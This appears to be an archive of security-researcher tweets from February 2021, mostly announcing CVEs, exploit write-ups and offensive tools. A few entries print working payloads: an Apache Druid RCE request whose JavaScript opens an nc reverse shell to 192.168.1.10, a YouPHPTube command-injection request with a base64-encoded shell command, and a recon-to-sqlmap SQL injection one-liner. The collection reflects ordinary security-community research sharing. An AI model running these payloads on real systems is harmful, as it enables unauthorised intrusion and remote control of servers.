

# mubix
**https://twitter.com/mubix/status/1358125270503407619 _at 2021-02-06 18:47:51_**
<blockquote>
Awesome analysis of SolarWinds Orion Platform Unauthenticated RCE (CVE-2021-25274) - https://t.co/2sSztmfpJZ regarding the @SpiderLabs blog post: https://t.co/umlV1glaZO
</blockquote>

* https://attackerkb.com/topics/GuXRxDl2UG/solarwinds-orion-platform-unauthenticated-rce-cve-2021-25274#rapid7-analysis
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/full-system-control-with-new-solarwinds-orion-based-and-serv-u-ftp-vulnerabilities/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>34</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1357838295334604804 _at 2021-02-05 23:47:31_**
<blockquote>
CVE-2021-21299 - Hyper HTTP library (rust) https://t.co/0KvwEgLTm7
</blockquote>

* https://github.com/hyperium/hyper/security/advisories/GHSA-6hfq-h8hq-87mf

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>5</code></td>
</table></tr>

---

# chompie1337
**https://twitter.com/chompie1337/status/1357753038451183620 _at 2021-02-05 18:08:44_**
<blockquote>
learned a ton about userland heap exploitation in Windows + DNS protocol writing an RCE exploit for #SigRed CVE-2020-1350. detailed technical writeup + PoC coming soon (sans rickroll 😇) https://t.co/BetRkRiUfj
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>832</code></td>
</table></tr>

---

# ofjaaah
**https://twitter.com/ofjaaah/status/1357704709021302787 _at 2021-02-05 14:56:42_**
<blockquote>
💉 findomain -t https://t.co/SCNfLzBcWO -q | httpx -silent | anew | waybackurls | gf sqli &gt;&gt; sqli ; sqlmap -m sqli --batch --random-agent --level 1

https://t.co/WXQZxQgSK2

https://t.co/SP7SjT7cpE 🦈

#bugbounty #bugbountytips #SqlInjection #KingOfBugbounty https://t.co/P4eXfo1cpA
</blockquote>

* http://testphp.vulnweb.com
* https://github.com/KingOfBugbounty/KingOfBugBountyTips
* https://m.do.co/c/703ff752fd6f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>50</code></td>
</table></tr>

---

# _ForrestOrr
**https://twitter.com/_ForrestOrr/status/1357694266894675970 _at 2021-02-05 14:15:12_**
<blockquote>
I'm proud to say I completed my first relatively modern UAF exploit today. A 32-bit re-creation of CVE-2020-0674 for IE 8-11 32-bit. It bypasses DEP, ASLR and EMET 5.5 mitigations. A future blog post will explore it in depth https://t.co/8XUnk91vZa
</blockquote>

* https://github.com/forrest-orr/ExploitDev/blob/master/Exploits/Re-creations/Forrest_Orr_CVE-2020-0674_32bit.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>217</code></td>
</table></tr>

---

# vict0ni
**https://twitter.com/vict0ni/status/1357621927112769538 _at 2021-02-05 09:27:45_**
<blockquote>
Got CVE-2021-26710 and CVE-2021-26711. I'm so excited!

A XSS in Redwood Report2Web v4.3.4.5 and v4.5.3 and frame injection in v4.3.4.5

https://t.co/pLFVCkeBQE
https://t.co/0tKu2xVURJ
</blockquote>

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26711
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26710

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>57</code></td>
</table></tr>

---

# sec715
**https://twitter.com/sec715/status/1357546718821142528 _at 2021-02-05 04:28:54_**
<blockquote>
YouPHPTube Encoder(CVE-2019-5127)

POC:
[1] GET /objects/getImage.php?base64Url=YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=&amp;format=png

[2] GET /objects/tess.txt

Base64 Encode:
YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=

`echo TEST RCE &gt; tess.txt` https://t.co/405TCHrIVe
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>140</code></td>
</table></tr>

---

# wugeej
**https://twitter.com/wugeej/status/1357509755544080386 _at 2021-02-05 02:02:01_**
<blockquote>
Apache Druid JavaScript RCE (CVE-2021-25646)

[PoC]
POST /druid/indexer/v1/sampler HTTP/1.1
...
...
 {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('nc 192.168.1.10 5555 -e /bin/sh')}"

https://t.co/WEwHLan7TD https://t.co/zublpQiYfR
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>205</code></td>
</table></tr>

---

# a13xp0p0v
**https://twitter.com/a13xp0p0v/status/1357460788076826627 _at 2021-02-04 22:47:26_**
<blockquote>
In January I found, exploited, fixed and responsibly disclosed Linux kernel vulnerabilities in virtual sockets.

Public announcement: https://t.co/NjXfS0NQxj

My PoC exploit gains LPE on Fedora Server 33 for x86_64 bypassing SMEP and SMAP. I'll share all the details later.

Demo! https://t.co/M11aGkcl3P
</blockquote>

* https://seclists.org/oss-sec/2021/q1/107

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>144</code></td>
<td>Favorites: <code>483</code></td>
</table></tr>

---

# sec715
**https://twitter.com/sec715/status/1357455434618085377 _at 2021-02-04 22:26:10_**
<blockquote>
POC Apache Flink RCE upload file.jar 🧐🧐 

gist:
https://t.co/QgJAVFqML8 https://t.co/SUjJklh2Kf
</blockquote>

* https://gist.github.com/pikpikcu/ef8456d6bfeb37b4ddd243e2b8d15fa6

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>117</code></td>
</table></tr>

---

# maddiestone
**https://twitter.com/maddiestone/status/1357375659954196480 _at 2021-02-04 17:09:10_**
<blockquote>
Chrome:
CVE-2020-15999 - Freetype buffer overflow
CVE-2020-16009 - Type confusion
CVE-2020-16010 - Android buffer overflow
Windows:
CVE-2020-17087 - cng.sys buffer overflow
Safari:
CVE-2020-27930 - RCE
iOS:
CVE-2020-27950 - kernel info leak
CVE-2020-27932 - kernel type confusion
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>55</code></td>
</table></tr>

---

# sec715
**https://twitter.com/sec715/status/1357345890487291904 _at 2021-02-04 15:10:53_**
<blockquote>
RCE TerraMaster TOS (2020-15568)

POC:
https://t.co/CBSTXnsixt https://t.co/IRYCpFPQ97
</blockquote>

* https://gist.github.com/pikpikcu/a7fcbc77ed2a7f45462d10420b1e68a9

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>66</code></td>
</table></tr>

---

# sec715
**https://twitter.com/sec715/status/1357290102620180480 _at 2021-02-04 11:29:12_**
<blockquote>
Liferay RCE (CVE-2020-7961)

POC:
https://t.co/QzXQXEl6pp https://t.co/6O7b8h22DV
</blockquote>

* https://gist.github.com/pikpikcu/0b1cd516088f10577ec5973e595a377f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>458</code></td>
</table></tr>

---

# goby77463399
**https://twitter.com/goby77463399/status/1357234295971135490 _at 2021-02-04 07:47:27_**
<blockquote>
New vulnerability: Apache Druid RCE (CVE-2021-25646)
(Next Version update) 

More Vulnerabilities, https://t.co/wkYqnJXCLb
Provide Feedback, https://t.co/A9JYTBSEIR
Join Telegram, https://t.co/uI4YmQTLPX https://t.co/zt3yI0y9xS
</blockquote>

* http://github.com/gobysec/GobyVuls
* http://github.com/Gobysec/Goby/issues
* http://t.me/gobies

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</table></tr>

---

# sec715
**https://twitter.com/sec715/status/1356890415685795842 _at 2021-02-03 09:00:59_**
<blockquote>
Found RCE Apache Druid(CVE-2021-25646) 
Nuclei Templates goes here @pdnuclei 🔥

Poc:
https://t.co/rseHiHi9aS https://t.co/8u4njrWgFw
</blockquote>

* https://gist.github.com/pikpikcu/d208f19ea222efe21c4a6e6003d57069

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>175</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1356868898294009861 _at 2021-02-03 07:35:29_**
<blockquote>
CVE-2021-25646 Apache Druid RCE POC
https://t.co/Qot9xXWcZF https://t.co/XmTQ3QWoIU
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>123</code></td>
</table></tr>

---

# hasherezade
**https://twitter.com/hasherezade/status/1356818085043462144 _at 2021-02-03 04:13:34_**
<blockquote>
New release: #pe_to_shellcode (#pe2shc) - added DCP support: now the generated shellcode can be injected into a processes with DCP ( "Dynamic Code Prohibited" ) enabled
https://t.co/ZBYsJAneb2 https://t.co/xqW7TkNIeS
</blockquote>

* https://github.com/hasherezade/pe_to_shellcode/releases/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>321</code></td>
</table></tr>

---

# AsahiLinux
**https://twitter.com/AsahiLinux/status/1356687736720089090 _at 2021-02-02 19:35:37_**
<blockquote>
You can now use one M1 Mac to get a serial console on another M1 Mac! All you need is a standard Type C cable, no special hardware required.

This works great with the m1n1 proxyclient support for experimenting with the hardware and loading kernels!

https://t.co/ZDOLyU8559
</blockquote>

* https://github.com/AsahiLinux/macvdmtool

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>153</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1356643660268527616 _at 2021-02-02 16:40:28_**
<blockquote>
NSA Codebreaker Challenge 2020 - Solutions :  https://t.co/bV7Thz1rnD credits @luker983
</blockquote>

* https://github.com/luker983/nsa-codebreaker-2020

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>61</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1356642801161748480 _at 2021-02-02 16:37:03_**
<blockquote>
Dissecting a MediaTek BootROM exploit : https://t.co/SCswsFLsOE 

MTK-bypass : https://t.co/xdp0Kk7IhD https://t.co/fILiafYN3I
</blockquote>

* https://tinyhack.com/2021/01/31/dissecting-a-mediatek-bootrom-exploit/
* https://github.com/MTK-bypass

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>50</code></td>
</table></tr>

---

# PortSwiggerRes
**https://twitter.com/PortSwiggerRes/status/1356636420320952320 _at 2021-02-02 16:11:42_**
<blockquote>
A new deserialization gadget chain has been submitted to ysoserial by our researcher @artsploit. Wondering how it was used in a zero day RCE exploit? We will publish a writeup soon after the patch! https://t.co/alvbS4Bslr
</blockquote>

* https://github.com/frohoff/ysoserial/pull/154/files

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>164</code></td>
</table></tr>

---

# _0xf4n9x_
**https://twitter.com/_0xf4n9x_/status/1356625706407653379 _at 2021-02-02 15:29:07_**
<blockquote>
Apache Druid Remote Code Execution

POC: https://t.co/lMihyXmEav

#CVE-2021-25646 https://t.co/qZMWbL5yPI
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>38</code></td>
</table></tr>

---

# elhackernet
**https://twitter.com/elhackernet/status/1356488016936775681 _at 2021-02-02 06:22:00_**
<blockquote>
Exploit python para WordPress 5.0.0 - Image #RCE Remote Code Execution CVE-2019-89242 | CVE-2019-89242 #exiftool https://t.co/bwfPynCOIw
</blockquote>

* https://www.exploit-db.com/exploits/49512

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>10</code></td>
</table></tr>

---

# Bank_Security
**https://twitter.com/Bank_Security/status/1356340545543495681 _at 2021-02-01 20:36:00_**
<blockquote>
A Threat Actor is selling a list of 180,000 IPs vulnerable to BlueKeep (CVE-2019-0708).

#BlueKeep is a well-known critical RCE vulnerability in Microsoft's RDP service discovered nearly 2 years ago...

...if you haven't done it yet, patch it now! https://t.co/peY8cFVfmm
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>75</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1356238440896065538 _at 2021-02-01 13:50:16_**
<blockquote>
RT @r4j0x00: My exploit for sudo CVE-2021-3156 that ACTUALLY works. Tested on ubuntu 18.04 and 20.04.
https://t.co/d6pE5dVBWJ https://t.co/…
</blockquote>

* https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>502</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# RenwaX23
**https://twitter.com/RenwaX23/status/1356224094023397377 _at 2021-02-01 12:53:16_**
<blockquote>
Today I release my new tool XSSTRON 🎉
Electron JS Browser To Find XSS Vulnerabilities🌟

Browse the web and it will automatically check for XSS vulnerabilities in background Reflected, Stored and DOM with support of POST requests too

https://t.co/4JyMIC5nE3 https://t.co/OOpTdjeVEb
</blockquote>

* https://github.com/RenwaX23/XSSTRON

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>325</code></td>
<td>Favorites: <code>909</code></td>
</table></tr>

---

# axi0mX
**https://twitter.com/axi0mX/status/1356197640552161282 _at 2021-02-01 11:08:09_**
<blockquote>
Not only is @p0sixninja one of the most well known researchers in the history of iOS jailbreaking, he is also publicly recognized by Apple for CVE-2019-8718 fixed in iOS 13.

Despite all that, Apple rejected his application for a Security Research Device.

https://t.co/8S2TDdKDnu https://t.co/6QpH2EpkLU
</blockquote>

* https://twitter.com/p0sixninja/status/1355953193738330114

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>367</code></td>
</table></tr>

---

